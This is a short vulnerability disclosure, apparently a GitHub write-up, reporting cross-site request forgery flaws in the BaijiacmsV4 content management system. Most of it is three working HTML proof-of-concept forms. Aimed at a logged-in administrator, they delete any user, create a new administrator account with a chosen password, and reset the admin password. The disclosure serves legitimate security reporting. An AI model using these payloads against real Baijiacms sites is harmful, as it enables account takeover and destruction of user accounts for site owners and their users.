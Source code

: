 # Baijiacms officials link

baijiacms: https://github.com/baijiacms/baijiacmsV4

# Why make this

BaijiacmsV4 does not open the issue,I can't feedback any issue,it's only possible to write up vulnerability here.

After administrator logged in, attacker can use CSRF add a new administrator or delete any user(include administrator), you can even change admin account password without using any password.

# Poc

## del any user

poc:
```
<html>
<body>
    <script>
        history.pushState('', '', '/')
    </script>
    <form action="http://localhost/index.php">
        <input type="hidden" name="mod" value="site" />
        <input type="hidden" name="op" value="deleteuser" />
        <input type="hidden" name="id" value="3" />
        <!--del user with id -->
        <input type="hidden" name="act" value="manager" />
        <input type="hidden" name="do" value="user" />
        <input type="hidden" name="beid" value="1" />
        <input type="submit" value="Submit request" />
    </form>
</body>
</html>
```

## add a user(admin)

poc:
```
<html>
<body>
    <script>
        history.pushState('', '', '/')
    </script>
    <form action="http://localhost/index.php?mod=site&op=edituser&act=manager&do=user&beid=1" method="POST">
        <input type="hidden" name="id" value="" />
        <input type="hidden" name="is&#95;admin" value="1" />
        <!-- add a admin -->
        <input type="hidden" name="store" value="0" />
        <input type="hidden" name="username" value="tester1" />
        <input type="hidden" name="newpassword" value="123456" />
        <input type="hidden" name="confirmpassword" value="123456" />
        <input type="hidden" name="submit" value="%E6%8F%90%E4%BA%A4" />
        <input type="submit" value="Submit request" />
    </form>
</body>
</html>
```

## change admin password

poc:
```
<html>
<body>
    <script>
        history.pushState('', '', '/')
    </script>
    <form action="http://localhost/index.php?mod=site&op=changepwd&id=1&act=manager&do=user&beid=1" method="POST">
        <input type="hidden" name="username" value="admin" />
        <!--only use username -->
        <input type="hidden" name="newpassword" value="12345678" />
        <input type="hidden" name="confirmpassword" value="12345678" />
        <input type="hidden" name="submit" value="%E6%8F%90%E4%BA%A4;" />
        <input type="submit" value="Submit request" />
    </form>
</body>
</html>
```